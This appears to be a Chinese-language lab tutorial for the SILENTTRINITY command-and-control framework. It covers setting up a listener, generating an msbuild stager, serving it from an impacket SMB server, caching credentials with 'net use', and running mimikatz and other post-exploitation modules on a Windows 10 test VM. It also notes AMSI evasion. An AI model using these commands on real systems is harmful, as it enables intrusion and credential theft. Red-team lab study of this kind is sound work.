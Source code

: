# SILENTTRINITY

SILENTTRINITY 是 [byt3bl33d3r](https://twitter.com/byt3bl33d3r) 用python写的一个工具， 它使用Ironpython，为了方便描述，这里我们称之为 ST.

## 安装

安装这个工具和依赖，然后启动。这里包含手动安装最新版和最优秀的 [impacket](https://github.com/SecureAuthCorp/impacket)。

```bash
#Install deps
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket
pip install -r requirements.txt
python setup.py install
​
#Install ST
apt install python3.7 python3.7-dev python3-pip
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/Server
python3.7 -m pip install -r requirements.txt
​
#Start it up
python3.7 st.py
```

![Ready to go](images/1.png)


## 监听

继续选择侦听器，将它绑定到IP+端口并启动它。顺便说一下，我把BindIP设置为一个子网，因为我使用VPN连接到测试实验室。没有什么神奇的。

```back@st
listeners
list
use http
options
set BindIP 10.0.8.6
start
```

![](images/2.png)

## Staging

接着生成stager。它将在/opt/SILENTTRINITY/Server目录中终止。

```hack@st
stagers
list
use msbuild
generate http
```

![](images/3.png)
![](images/4.png)

## 运行

现在，找到下载和触发stager的适当方法。到2018年11月，msbuild stager payloads 仍然没能触发Windows1803上的AMSI。

## Serving the payload

一个巧妙的方法是使用SMB服务器来为 payloads 提供服务。下载并使用msbuild 和 到SMB服务器的UNC路径作为参数触发它。

首先创建一个共享文件夹，然后从impacket启动SMB服务器。

```powershell
mkdir /opt/SMB
smbserver.py SMB /opt/SMB -username hacker -password hacker -smb2support -ip 10.0.8.6
```

![](images/5.png)

## 触发 payload

现在我们尝试用msbuild触发payload，但是失败了，因为还没有认证。

```cmd
cp /opt/SILENTTRINITY/Server/msbuild.xml /opt/SMB/msbuild.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\10.0.8.6\SMB\msbuild.xml
```

![](images/6.png)

## 缓存凭证

这里为什么要指定凭证？在Windows 10上，默认情况下不能使用未经身份验证的SMB。据我所知，没有一种方法可以直接给 msbuild 提供凭据。因此，我在主机上摆弄了一下，找到一些技巧来缓存 SMB 服务器的一些凭据。如您所见，我用 hacker/hacker 进行身份验证。当然了这很安全。在目标上， 用 `net use` 命令触发身份验证。这个命令会尝试使用特定的凭证访问smb共享，从而在目标上本地缓存凭证。从运筹学的角度来看，这很不优雅，所以如果大家有更好的方法，可以联系我。

```powershell
net use \\10.0.8.6\smb /user:hacker hacker
```

![](images/7.png)

我们看到，成功进行身份验证和并获得NetNTLMv2哈希。因此，现在在目标上缓存了凭据，我们再次尝试触发 payload。

![](images/8.png)

woc好像发生了什么。。我们回ST里看看。

![](images/9.png)

这下就非常美丽了，我们得到了一个会话，认证的时候复用了缓存的凭证。

## 模块

现在我们列出刚刚获得的会话。因为我从提过权的shell触发了 payload，所以我们有一个提权了的会话。这允许我们做一些事情，比如dump 凭证和其他类型的后期利用。

```bash
sessions
list
```

![](images/10.png)

因此，让我们探索一下ST必须提供的一些后期利用模块。正如你所看到的，ST已经内置了很多模块，貌似还有更多的模块要发布。

![](images/11.png)

我们选择 `mimikatz` 模块并在会话中运行。注意，你必须从会话列表中复制 GUID，以便做好准备。如果你有多个会话，也可以使用 `run all` 在所有会话上运行该模块。

```
modules
list
use mimikatz
options
run GUID
```

![](images/12.png)

运行shell模块

![](images/12.png)

使用 [Watson](https://github.com/rasta-mouse/Watson) 尝试执行`execute-assembly`模块。实际上注意到 ST 会自动补全目前的会话的GUID。按键盘上的 右方向键 来自动补全。

```
modules
use execute-assembly
options
set Assembly /opt/Watson.exe
run GUID
```

![](images/15.png)

![](images/14.png)

在我打过补丁的win10 1803 虚拟机上啥也没发现，这很正常。